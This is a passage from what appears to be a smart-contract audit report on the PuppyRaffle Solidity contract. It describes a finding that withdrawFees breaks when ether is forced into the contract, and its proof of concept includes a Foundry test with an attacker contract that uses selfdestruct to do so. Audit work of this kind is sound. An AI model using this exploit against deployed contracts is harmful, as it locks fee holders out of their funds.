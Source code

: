 ```javascript
    }

    function selectWinner() external {
        raffleID++;
        ...
```




### [M-2] `PuppyRaffle::withdrawFees` checks if players are active by testing if `totalFees` is equal to the contract value. This breaks if funds are sent to the contract.

**Description:** 

The `PuppyRaffle::withdrawFees` checks if players are active by testing if `totalFees` is equal to the contracts value. This becomes impossible if funds are sent to the `PuppyRaffle` contract.

```javascript
    function withdrawFees() external {
        require(
            address(this).balance == uint256(totalFees),
            "PuppyRaffle: There are currently players active!"
        );
```

**Impact:** 
No fees can be withdrawn to the fee address.

**Proof of Concept:**

Add the following file to your test folder 

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";
import {StdInvariant} from "forge-std/StdInvariant.sol";

contract BreakWithdrawFeesFunction {
    address vulnerableAddress;

    constructor(address _vulnerableAddress) {
        vulnerableAddress = _vulnerableAddress;
    }

    function attack() public payable {
        address payable addr = payable(vulnerableAddress);
        selfdestruct(addr);
    }
}

contract PuppyRaffleTest is StdInvariant, Test {
    PuppyRaffle puppyRaffle;
    BreakWithdrawFeesFunction breakWithdrawFeesFunction;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
    address playerTwo = address(2);
    address playerThree = address(3);
    address playerFour = address(4);
    address feeAddress = address(99);
    uint256 duration = 1 days;

    function setUp() public {
```
